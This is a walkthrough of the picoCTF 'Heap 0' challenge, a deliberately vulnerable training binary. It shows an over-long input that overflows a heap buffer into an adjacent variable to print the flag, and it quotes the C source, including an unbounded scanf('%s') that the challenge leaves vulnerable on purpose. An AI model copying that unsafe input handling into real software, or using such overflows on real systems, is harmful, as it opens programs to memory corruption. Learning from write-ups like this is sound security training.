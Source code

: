 # [picoCTF Heap 0](https://play.picoctf.org/practice/challenge/438)

afer you downloaded the binary and c file you can run the program locally with:

```bash
./chall
```

if you ge a permission denied: ./chall run:

```bash
chmod +x ./chall
```

this adds execute permission to call for the file owner, the group, and others (depending on the current file's permissions).

after that you will see:

```bash
Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5e84f69c96b0  ->   pico
+-------------+----------------+
[*]   0x5e84f69c96d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

```
you can see the adresses of pico and bico are 32 bites apart this means we have to choose option 2 and input more than 32 chars to overflow the second variable save_var.

we input: 1234567890abcdefghijklmnopqrstuvwxyz

which leads to:

```bash
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5e84f69c96b0  ->   1234567890abcdefghijklmnopqrstuvwxyz
+-------------+----------------+
[*]   0x5e84f69c96d0  ->   wxyz
+-------------+----------------+
```

now we can choose option 4. Print Flag which triggers check_win():

```c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

and because save_var is now wxyz we get the flag:

```bash
YOU WIN
picoCTF{example_flag}
```

this is because The write_buffer() function uses scanf("%s", input_data) to read user input, but it does not restrict the number of characters entered. Since input_data is only 5 bytes long, entering more than 5 characters causes a heap overflow, allowing you to overwrite adjacent memory.



```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Category: Binary Exploitation